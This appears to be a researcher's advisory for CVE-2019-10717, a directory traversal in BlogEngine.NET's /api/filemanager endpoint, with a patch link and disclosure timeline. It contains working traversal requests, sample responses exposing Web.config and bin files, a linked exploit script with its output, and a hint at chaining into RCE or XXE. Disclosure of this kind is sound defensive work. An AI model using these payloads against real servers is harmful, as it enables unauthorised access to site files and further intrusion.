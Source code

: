 A directory traversal, CVE-2019-10717, was identified on BlogEngine.NET applications versions 3.3.7 and earlier through the `/api/filemanager` endpoint.  This issue reveals the contents of directories in the web root. Authentication is required to exploit this issue.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 24 Jun 2019

## Description

`File Manager` is used by the application to show the contents of `~/App_Data/files` and sub-directories in the UI.  Submitting requests directly to `/api/filemanager` with a modified `path` parameter reveals directory contents beyond `~/App_Data/files`.  

![](filemanager.png)

A request to `/api/filemanager?path=%2F..%2f..%2f` shows the contents of the web root:

~~~{.json command="https://$HOST/api/filemanager?path=%2F..%2f..%2f"}
...
  {
    "IsChecked": false,
    "SortOrder": 25,
    "Created": "5/26/2018 1:53:02 PM",
    "Name": "Web.config",
    "FileSize": "19.41 kb",
    "FileType": 1,
    "FullPath": "/../../Web.config",
    "ImgPlaceholder": "fa fa-file-o"
  },
...
~~~

The content of additional directories will be revealed by tampering with the **path** parameter:

~~~{.json command="https://$HOST/api/filemanager?path=%2F..%2f..%2fContent"}
  {
    "IsChecked": false,
    "SortOrder": 15,
    "Created": "3/30/2019 9:09:23 PM",
    "Name": "toastr.scss",
    "FileSize": "6.92 kb",
    "FileType": 1,
    "FullPath": "/../../Content/toastr.scss",
    "ImgPlaceholder": "fa fa-file-o"
  }
~~~

This issue could be exploited to verify uploaded files needed for a RCE attack or to identify files to retrieve through an XXE.

## Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10717/exploit.py>

Generates a list of all files in the web root:

~~~{command="python CVE-2019-10717.py -t 192.168.10.9"}
?path=~/App_Data/files/../../bin
/../../bin/AjaxMin.dll
/../../bin/BlogEngine.Core.dll
/../../bin/BlogEngine.Core.pdb
/../../bin/BlogEngine.Core.xml
/../../bin/BlogEngine.NET.dll
/../../bin/BlogEngine.NET.dll.config
/../../bin/BlogEngine.NET.pdb
/../../bin/BlogML.dll
/../../bin/Dynamic.dll
/../../bin/ICSharpCode.SharpZipLib.dll
/../../bin/Microsoft.Web.Infrastructure.dll
/../../bin/Microsoft.Web.XmlTransform.dll
/../../bin/Newtonsoft.Json.dll
/../../bin/Newtonsoft.Json.xml
~~~
